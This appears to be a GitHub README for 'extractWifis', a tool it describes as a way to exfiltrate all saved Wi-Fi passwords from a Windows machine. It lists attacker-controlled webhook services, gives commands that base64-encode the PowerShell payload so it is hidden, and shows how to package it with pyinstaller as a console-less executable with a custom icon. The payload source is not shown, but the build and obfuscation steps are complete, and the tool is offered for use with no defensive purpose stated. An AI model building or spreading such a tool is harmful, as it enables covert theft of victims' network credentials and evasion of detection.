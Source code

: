 # extractWifis

Exfiltrate all Windows saved Wi-Fi passwords

## Requirements

1. On your Windows machine install Python https://www.python.org/downloads/
 
2. Install pyinstaller `C:\> pip install pyinstaller`

3. Create a webhook url
- https://requestinspector.com
- https://beeceptor.com
- https://webhook.site


## Instructions

1. Open  `getwifis.ps1` and replace `WEBHOOK_URL_HERE` with your webhook url.

2. Encode Powershell (Linux command):
```bash
iconv -f ASCII -t UTF-16LE getwifis.ps1 | base64 -w0
```

3. Open `script.py` and replace `B64_HERE` with your base64 code.

4. Create executable
```cmd
c:\> pyinstaller --onefile --noconsole --icon=icon.ico script.py
```

Executable will be on `dist` folder
